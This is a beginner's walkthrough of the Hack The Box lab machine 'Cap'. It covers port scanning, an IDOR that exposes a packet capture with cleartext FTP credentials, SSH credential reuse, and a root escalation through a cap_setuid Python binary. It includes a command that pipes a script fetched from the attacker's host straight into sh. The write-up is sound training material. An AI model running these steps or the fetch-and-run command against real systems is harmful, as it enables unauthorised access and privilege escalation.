






**Difficulty:** Easy · **OS:** Linux

## Intro

This is the first real Hack The Box machine I've worked through start to finish. I've got some experience under my belt, but I'm still a little fledgling at this — so this is as much a record of how I think through a box as it is a writeup. Cap is rated Easy, and it turned out to be a great one to cut my teeth on: a little web enumeration, a packet capture to dig through, and a privesc that taught me something new. Here's how it went.

## Recon

Ran an initial nmap scan to see what I'm working with.

```text
└─$ nmap 10.129.11.152 -sV -sC
Starting Nmap 7.99 ( https://nmap.org ) at 2026-06-07 15:11 -0700
Nmap scan report for 10.129.11.152
Host is up (0.091s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Three services: FTP (21), SSH (22), and an HTTP dashboard on 80 served by Gunicorn.

Tried an anonymous FTP login. No dice.

```text
┌──(d3vilsec㉿kali)-[~]
└─$ ftp 10.129.11.152 21
Connected to 10.129.11.152.
220 (vsFTPd 3.0.3)
Name (10.129.11.152:d3vilsec): anonymous
331 Please specify the password.
Password:
530 Login incorrect.
ftp: Login failed
```

## Enumerating the web app

Port 80 is open, so I attempted to browse to the site.



A couple of pages I can access. Nothing really noteworthy in my opinion.





Tried using `ffuf` to search for web directories.

```text
┌──(d3vilsec㉿kali)-[~]
└─$ ffuf -u http://10.129.11.152/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.11.152/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

data                    [Status: 302, Size: 208, Words: 21, Lines: 4, Duration: 94ms]
ip                      [Status: 200, Size: 17461, Words: 7275, Lines: 355, Duration: 109ms]
netstat                 [Status: 200, Size: 32633, Words: 15705, Lines: 488, Duration: 101ms]
:: Progress: [4750/4750] :: Job [1/1] :: 428 req/sec :: Duration: [0:00:11] :: Errors: 0 ::
```

Nothing jumped out at first, but messing around with the URL I found a packet capture that could be interesting. The `/data/<id>` endpoint hands back whatever capture matches the ID — bump the number and you can read other captures (a classic IDOR).



## Sniffing creds out of the pcap

Opened the pcap file in Wireshark and found a cleartext login for FTP.



Successful login!

```text
┌──(d3vilsec㉿kali)-[~]
└─$ ftp 10.129.11.152 21
Connected to 10.129.11.152.
220 (vsFTPd 3.0.3)
Name (10.129.11.152:d3vilsec): nathan
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

There was a `user.txt` file and I pulled it down.

```text
ftp> ls
229 Entering Extended Passive Mode (|||60055|)
150 Here comes the directory listing.
-r--------    1 1001     1001           33 Jun 07 22:10 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||35293|)
150 Opening BINARY mode data connection for user.txt (33 bytes).
100% |****************************************|    33      619.74 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.35 KiB/s)
ftp>
```

Found the user flag. One down, one to go.

```text
┌──(d3vilsec㉿kali)-[~]
└─$ cat user.txt
[REDACTED]
```

## Getting a shell

Let's see if I can SSH with the same credentials.

```text
┌──(d3vilsec㉿kali)-[~]
└─$ ssh nathan@10.129.11.152
The authenticity of host '10.129.11.152 (10.129.11.152)' can't be established.
ED25519 key fingerprint is: SHA256:UDhIJpylePItP3qjtVVU+GnSyAZSr+mZKHzRoKcmLUI
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.11.152' (ED25519) to the list of known hosts.
nathan@10.129.11.152's password:
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)
...
Last login: Thu May 27 11:21:27 2021 from 10.10.14.7
nathan@cap:~$
```

Reused FTP creds work for SSH. Tried to escalate with `sudo`, but no luck.

```text
nathan@cap:~$ sudo -i
[sudo] password for nathan:
nathan is not in the sudoers file.  This incident will be reported.
```

Took a look at nathan's home dir. Typical stuff, but I still read through it. `.bash_logout` made me curious and pointed me toward `/usr/bin`.

```text
nathan@cap:~$ ls -la
total 28
drwxr-xr-x 3 nathan nathan 4096 May 27  2021 .
drwxr-xr-x 3 root   root   4096 May 23  2021 ..
lrwxrwxrwx 1 root   root      9 May 15  2021 .bash_history -> /dev/null
-rw-r--r-- 1 nathan nathan  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 nathan nathan 3771 Feb 25  2020 .bashrc
drwx------ 2 nathan nathan 4096 May 23  2021 .cache
-rw-r--r-- 1 nathan nathan  807 Feb 25  2020 .profile
lrwxrwxrwx 1 root   root      9 May 27  2021 .viminfo -> /dev/null
-r-------- 1 nathan nathan   33 Jun  7 22:10 user.txt
```

## Privilege escalation — Linux capabilities

This is where I got stuck and used the hint: *"[linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) will show this in the 'Files with capabilities' section of the output. Or use the `getcap` binary on Cap."*

I set up a temporary HTTP server on my box so I could pull linpeas down to the victim and run it.

On my machine:

```text
┌──(d3vilsec㉿kali)-[/usr/share/peass/linpeas]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.11.152 - - [07/Jun/2026 16:19:06] "GET /linpeas.sh HTTP/1.1" 200 -
```

On the victim:

```text
nathan@cap:~$ curl 10.10.14.35/linpeas.sh | sh
...
Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

There it is: `/usr/bin/python3.8` carries `cap_setuid`. That capability lets the binary set its UID to anything it wants — including 0 — without needing sudo. I got stuck on the exact syntax here (Python isn't my strong suit), but the path was right. Calling `os.setuid(0)` to become root, then spawning a shell:

```text
nathan@cap:~$ /usr/bin/python3.8
Python 3.8.5 (default, Jan 27 2021, 15:41:15)
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.setuid(0)
>>> os.system("/bin/bash")
root@cap:~#
```

Root. Grabbed the final flag.

```text
root@cap:~# cat /root/root.txt
[REDACTED]
```

## Takeaways

- The `/data/<id>` endpoint is a textbook **IDOR** — sequential IDs let you read captures that aren't yours, and one of them leaked cleartext FTP creds.
- **Credential reuse** between FTP and SSH turned a single leak into an interactive shell.
- The root cause of the privesc is a dangerous **Linux capability** (`cap_setuid`) on the Python binary. `getcap -r / 2>/dev/null` is worth running on every Linux box — capabilities don't show up in a `sudo -l` and are easy to miss.

## Conclusion

For my first real box, Cap taught me a lot. A couple of things were brand new to me: getting **linPEAS** onto the target and reading its output is a workflow I'll reach for on every Linux box from here on out, and the privesc was my first time using Python's **`os` module** (`os.setuid` / `os.system`) to abuse a capability and land a root shell.

The honest takeaway is that I need to get stronger with Python. I got stuck on the exact syntax at the final step and had to lean on a hint to push through. Reading and writing Python well is clearly going to pay off across a lot of these challenges, so that's where I'm pointing my study next. On to the next one.
